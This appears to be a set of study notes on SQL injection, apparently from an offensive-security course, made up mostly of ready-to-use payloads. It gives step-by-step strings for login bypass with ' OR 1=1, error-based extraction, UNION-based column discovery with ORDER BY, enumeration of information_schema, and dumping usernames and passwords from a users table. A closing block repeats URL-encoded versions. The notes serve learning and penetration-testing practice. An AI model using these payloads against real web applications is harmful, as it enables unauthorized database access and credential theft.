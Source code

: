     1. Try single quote first
        `'`
    2. Whitespace character needed after forward slashes 
        `offsecUser' OR 1=1 -- // `
    3. If AUTH successful, now we can use arbirtrary code if 
        `' or 1=1 in (select @@version) -- // `
    4. Dump all users data 
        `' OR 1=1 in (SELECT * FROM users) -- // `
    5. Try password column 
        `' or 1=1 in (SELECT password FROM users) -- // `
    6. Add user selection 
        `' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- // `
    
### Union-based Payloads
* Enables execution of extra SELECT statement, concatenating two queries into one statement
* Two requirements to execution
    1. The injected UNION query has to include the same # of columns as the original query.
    2. The data types need to be compatible between each column.

    * To dscover the correct # of columns `' ORDER BY 1-- // `
    * The above statement orders the results by a specific column, meaning it will fail whenever the selected column does not exist. Increasing the column value by one each time, we'll discover that the table has five columns since ordering by column six returns an error.
```shell
# ORIGINAL Query
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";

# Now we find # of COLUMNS, then 
# Iteratitvely increase the ORDER BY #, until you get an error.
' ORDER BY 1-- // 
' ORDER BY 2-- // 

# Next, determine which columns are displayed using the following query.
%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //   

# Attempt first attack against 5 COL table, with query match # of COL
# Dump DB name, USER, MySQL version, in 1st, 2nd, 3rd COL, leaving last 2 COL as NULL
# If output from UNION is not showing up in the correct COL, shift NULL values into other COL
%' UNION SELECT database(), user(), @@version, null, null -- // 

# List the current database
'+union+select+'A1',database(),'C3','D4','D5'--+- 

' # Enumerate information schema of current DB, to identify other tables
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- // 

' # Above query identifed USERS table, lets dump
' UNION SELECT null, username, password, description, null FROM users -- // 

########################################################
HACKTRACK commands
#######################################################
# Identify visible columns
'+union+select+'A1','B2','C3','D4','D5'--+-

# List the current database
'+union+select+'A1',database(),'C3','D4','D5'--+-

# List all tables inside current database
'+union+select+'A1',table_name,'C3','D4','D5'+from+information_schema.tables+where+table_schema=database()--+- 


```